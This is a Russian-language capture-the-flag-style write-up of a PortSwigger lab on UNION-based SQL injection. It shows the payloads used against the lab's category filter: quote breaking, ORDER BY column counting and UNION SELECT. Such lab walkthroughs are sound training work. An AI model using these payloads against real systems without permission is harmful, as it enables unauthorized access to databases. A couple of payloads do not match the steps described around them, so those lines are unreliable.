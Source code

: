 # SQL injection UNION attack, determining the number of columns returned by the query

## Links

**Source:** [Coffee Cube](https://t.me/coffee_cube)  
**Lab:** [PortSwigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-determining-the-number-of-columns-required/sql-injection/union-attacks/lab-determine-number-of-columns)

## Scope

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/
```

В данной лабе есть уязвимый к **SQL injection** фильтр категории. Для решения необходимо выполнить атаку, которая должна вывести дополнительную строку с `NULL` значениями.

## Solution

Первым делом нужно найти фильтр категорий, который описан в задании. Это сделать достаточно легко, так как он находится на главной странице, и значения для фильтрации передаются через параметры `GET`-запроса.

![IMG](/assets/images/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/1.png){: height="200" .align-center}

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories
```
<br>

Теперь нужно найти символ обрамления для параметра. Предположим, что запрос выглядит следующим образом:

```SQL
SELECT name, price FROM table WHERE category = 'Accessories'
```

Предположу, что для обрамления используется символ кавычки `'`, тогда я не должен получить никаких значений при следующем запросе:

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories' and false-- -
```

Собственно это и произошло:

![IMG](/assets/images/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/2.png){: height="200" .align-center}

Запрос к БД выглядел следующим образом:

```SQL
SELECT name, price FROM table WHERE category = 'Accessories' and false -- -'
```

<details>
  <summary>Подробнее</summary>

  >`-- -` - это комментарий в `SQL`, с помощью него я убрал всю последующую часть запроса. В данном случае это лишняя кавычка, которая  
  > ломала бы запрос.
</details>
<br>

Обрамления я нашел - это одинарные кавычки `'`. Теперь нужно найти количество элементов в запросе. Это можно сделать с помощью `ORDER BY`. Этот оператор используется для сортировки результата по номеру стоблца в БД. Если нужного столбца нет, то мы получим ошибку. Подставлю значение 100.

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories%27%20ORDER%20BY%20100--%20-
```

Ошибка)

![IMG](/assets/images/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/3.png){: height="200" .align-center}

Далее можно использовать бинарный поиск для нахождения нужного значения. То есть передать 50. В случае ошибки взять 25. Если же успех, то 75. И так далее. Можно так же ткнуть на обум. На сайте мы видим 3 колонки. Звучит логично, что они все заполняются из БД. Подставлю значение 4 (для сокращения буду писать только часть пейлоада).

```
Accessories' ORDER BY 4-- -
```

![IMG](/assets/images/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/4.png){: height="200" .align-center}

Подставлю 3:

```
Accessories' ORDER BY 4-- -
```

Супер. ~~Сбер теперь купер~~.

![IMG](/assets/images/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/5.png){: height="200" .align-center}
 
Я нашел количество столбцов. Попробую добавить `UNION` к своему пейлоаду, чтобы получить данные из БД.
  
```
Accessories' UNION SELECT 1,2,3-- -
```

Ошибка(

![IMG](/assets/images/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/6.png){: height="200" .align-center}

Оберну значения в кавычки.

```
Accessories' and false UNION SELECT 1,2,3-- -
```

![IMG](/assets/images/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/7.png){: height="200" .align-center}
<br>

Я вывел переданные значения в таблицу на сайте, что и требовалось для прохождения лабы.